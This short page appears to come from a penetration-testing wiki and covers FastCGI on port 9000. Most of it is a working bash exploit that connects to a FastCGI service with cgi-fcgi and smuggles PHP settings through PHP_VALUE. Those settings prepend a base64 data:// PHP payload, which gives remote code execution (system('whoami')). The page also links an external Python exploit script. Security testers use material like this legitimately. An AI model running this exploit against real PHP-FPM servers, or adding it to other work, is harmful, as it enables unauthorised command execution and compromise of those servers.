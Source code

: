 {{#include ../banners/hacktricks-training.md}}

# Basic Information

If you want to **learn what is FastCGI** check the following page:

{{#ref}}
pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/disable_functions-bypass-php-fpm-fastcgi.md
{{#endref}}

By default **FastCGI** run in **port** **9000** and isn't recognized by nmap. **Usually** FastCGI only listen in **localhost**.

# RCE

It's quite easy to make FastCGI execute arbitrary code:

```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/public/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```

or you can also use the following python script: [https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

{{#include ../banners/hacktricks-training.md}}
